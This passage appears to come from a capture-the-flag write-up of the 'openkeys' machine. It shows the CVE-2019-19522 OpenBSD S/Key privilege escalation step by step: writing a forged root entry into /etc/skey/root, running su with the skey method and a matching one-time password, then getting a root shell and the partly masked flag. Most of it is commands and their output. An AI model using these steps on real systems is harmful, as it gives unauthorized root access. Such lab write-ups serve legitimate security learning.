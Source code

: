 * Now we are in `auth` group.

### CVE-2019-19522

**First**, create root skey and chmod it - 
```
openkeys$ echo 'root md5 0100 obsd91335 8b6d96e0ef1b1c21' > /etc/skey/root
openkeys$ chmod 0600 /etc/skey/root
```

**Second**, run - 
```
$ env -i TERM=vt220 su -l -a skey
otp-md5 99 obsd91335
S/Key Password: EGG LARD GROW HOG DRAG LAIN
openkeys# whoami                                                                
root
```

**Root shell**
```
openkeys# whoami                                               
root
openkeys# root.txt
f3a553b1************************
```